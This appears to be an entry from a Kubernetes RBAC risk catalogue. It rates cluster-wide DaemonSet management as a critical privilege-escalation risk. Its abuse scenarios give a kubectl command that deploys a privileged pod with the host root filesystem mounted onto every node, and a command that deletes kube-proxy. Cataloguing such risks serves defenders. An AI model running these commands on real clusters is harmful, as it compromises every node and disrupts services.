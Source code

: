 ```yaml
---
id: 1035
title: "Manage DaemonSets cluster-wide (runs on all nodes, high impact)"
description: "Permits creating, updating, or deleting DaemonSets across the cluster. DaemonSets ensure a pod runs on all (or selected) nodes. This is highly critical as it allows deploying privileged pods directly onto every node, leading to widespread node compromise, privilege escalation, and persistent access."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                                        |
| ------------- | -------------------------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1035                                                                                                                                         |
| Name          | Manage DaemonSets cluster-wide (runs on all nodes, high impact)                                                                              |
| Risk Category | Elevation of Privilege                                                                                                                       |
| Risk Level    | {{< risk Critical >}}                                                                                                                        |
| Role Type     | ClusterRole                                                                                                                                  |
| API Groups    | apps                                                                                                                                         |
| Resources     | daemonsets                                                                                                                                   |
| Verbs         | create, update, patch, delete                                                                                                                |
| Tags          | {{< tag "NodeAccess" >}} {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Permits creating, updating, or deleting DaemonSets across the cluster. DaemonSets ensure a pod runs on all (or selected) nodes. This is highly critical as it allows deploying privileged pods directly onto every node, leading to widespread node compromise, privilege escalation, and persistent access.

## Abuse Scenarios

1. Create a new DaemonSet that deploys a privileged pod on every node.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: privileged-daemonset
spec:
  selector:
    matchLabels:
      app: privileged-ds
  template:
    metadata:
      labels:
        app: privileged-ds
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: attacker
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
EOF
# Example: kubectl create -n kube-system -f - <<EOF ... EOF

```

2. Delete a critical DaemonSet, disrupting cluster-wide services.

```bash
kubectl delete daemonset <daemonset-name> -n <namespace>
# Example: kubectl delete daemonset kube-proxy -n kube-system

```
